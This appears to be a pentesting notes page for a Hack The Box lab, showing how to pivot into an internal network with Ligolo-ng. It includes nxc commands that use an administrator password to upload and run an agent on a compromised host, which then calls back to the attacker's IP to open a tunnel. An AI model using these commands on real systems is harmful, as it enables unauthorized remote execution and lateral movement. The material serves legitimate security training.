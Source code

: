 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Ligolo-ng

## Commands

### Basic Commands

{% tabs %}
{% tab title="1. Server tun if" %}
```bash
sudo ip tuntap add user kali mode tun ligolo && sudo ip link set ligolo up
```
{% endtab %}

{% tab title="2a. Proxy (no internet)" %}
```bash
proxy -selfcert
```
{% endtab %}

{% tab title="2b. Proxy (internet)" %}
```bash
proxy -autocert
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="3. Agent" %}
```bash
./agent -connect 10.129.204.146:11601
```
{% endtab %}

{% tab title="4. Add route" %}
```
sudo ip route add 172.16.10.0/24 dev ligolo
```
{% endtab %}

{% tab title="5. Session" %}
```bash
ligolo-ng » session
```
{% endtab %}

{% tab title="6. Tunnel" %}
```bash
[Agent : user@nworkstation] » start_tunnel --tun ligolo
```
{% endtab %}
{% endtabs %}

### Agent Transfer & Execution

{% tabs %}
{% tab title="Transfer" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth --put-file 'agent.exe' '\Windows\Temp\agent.exe'
```
{% endcode %}
{% endtab %}

{% tab title="Execute" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth -x '\Windows\Temp\agent.exe -connect 10.10.15.223:11601 -ignore-cert'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Usage

{% hint style="info" %}
The below network configuration is from the [Vulnerability Scan Modules](https://academy.hackthebox.com/module/84/section/822) section of the Hack The Box's [Using CrackMapExec](https://academy.hackthebox.com/module/details/84) module.
{% endhint %}

We have compromised a Windows pivot host with 2 NICs (Figure 1). Our goal is to be able to interact with the `172.16.10.0/24` network, which at the moment we cannot (Figure 2).&#x20;

<figure><img src="../../.gitbook/assets/ligolo_ipconfig.png" alt=""><figcaption><p>Figure 1: The compromised pivot host has 2 NICs, one for the 172.16.10.0 and one for the 10.129.0.0 network.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/ligolo_target_network_fail.png" alt=""><figcaption><p>Figure 2: Performing an unsuccessful live host discovery and ARP port scan on the target network. </p></figcaption></figure>

Create a tun interface on the Linux attack host (Figure 3).

<figure><img src="../../.gitbook/assets/ligolo_tun_if.png" alt=""><figcaption><p>Figure 3: Setting up a tun intefrace.</p></figcaption></figure>

Start `proxy` on the Linux attack host (Figure 4). For pivot hosts with no internet connectivity a self-signed certificate needs to be generated (`-selfcert`). Otherwise, use `-autocert` to request a proper certificate.

> _On a Windows attack host, we need to have the appropriate_ [_`wintun.dll`_](https://www.wintun.net/) _on the same folder._

<figure><img src="../../.gitbook/assets/ligogo_proxy.png" alt=""><figcaption><p>Figure 4: Starting the proxy server on the attack host.</p></figcaption></figure>

Transfer and execute the `agent.exe` binary to the pivot host (Figure 5).

{% hint style="success" %}
**Admin access** on the target host **is** **NOT required**!
{% endhint %}

<figure><img src="../../.gitbook/assets/ligolo_ng_agent_transfer_execute.png" alt=""><figcaption><p>Figure 5: Transferring and executing the agent on the pivot host.</p></figcaption></figure>

A connection should be received on the attack host (Figure 6).

<figure><img src="../../.gitbook/assets/ligolo_proxy_received.png" alt=""><figcaption><p>Figure 6: Received a connection on thte attack host.</p></figcaption></figure>

Add an IP route for the target network (_ligogo device_) on the attack host (Figure 7).

<figure><img src="../../.gitbook/assets/liogo_add_route.png" alt=""><figcaption><p>Figure 7: Adding an IP route for the target network.</p></figcaption></figure>

Choose the appropriate session and start the tunnel (Figure 8).

<figure><img src="../../.gitbook/assets/ligolo_start_tunnel.png" alt=""><figcaption><p>Figure 8: Choosing the session and starting the tunnel.</p></figcaption></figure>

We can now interact from our attack host as if we were a part of the internal network (Figure 9).

<figure><img src="../../.gitbook/assets/ligolo_live_host_disc_arp_port_scan.png" alt=""><figcaption><p>Figure 9: Performing a successful live host discovery and an ARP port scan on the target network.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="Repo" %}
{% embed url="https://github.com/nicocha30/ligolo-ng" %}
{% endtab %}

{% tab title="Video Demo" %}
{% embed url="https://www.youtube.com/watch?v=qou7shRlX_s" %}
{% endtab %}
{% endtabs %}
